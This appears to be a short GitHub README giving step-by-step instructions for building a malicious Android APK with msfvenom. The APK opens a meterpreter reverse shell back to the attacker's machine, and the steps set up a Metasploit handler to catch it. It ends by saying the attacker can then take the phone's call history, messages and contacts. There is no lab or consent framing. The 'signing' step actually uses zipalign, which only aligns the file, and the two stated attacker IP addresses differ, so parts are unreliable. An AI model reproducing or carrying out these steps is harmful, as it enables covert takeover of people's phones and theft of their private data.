 Instructions
1. Open Kali Linux and create a folder called "android" in the home directory.
2. Then go to that android folder and open a terminal there itself.
3. Now use the following command to create a payload <br>
&emsp;Command: sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.205.228 LPORT=4444 R > chaithu.apk
4. Here LHOST is your Kali machine's ip address
5. Now install a tool called zipalign to sign the payload by using the following command <br>
&emsp;Command: sudo apt-get install zipalign
6. Now sign the payload by using the following command and install the application on the mobile<br>
&emsp;Command: zipalign -v 4 chaithu.apk signed_jar.apk
7. Now come to Kali Linux and open metasploit by using msfconsole and run the following commands to listen the connection from mobile <br>
&emsp;•	use exploit/multi/handler <br>
&emsp;•	set payload android/meterpreter/reverse_tcp <br>
&emsp;•	set lhost 192.168.68.130 (ip of linux) <br>
&emsp;•	set lport 4444 <br>
8. Then run the metasploit 
9. Now we can exploit the mobile and get whatever we want like call histrory, messages, contacts and many more.
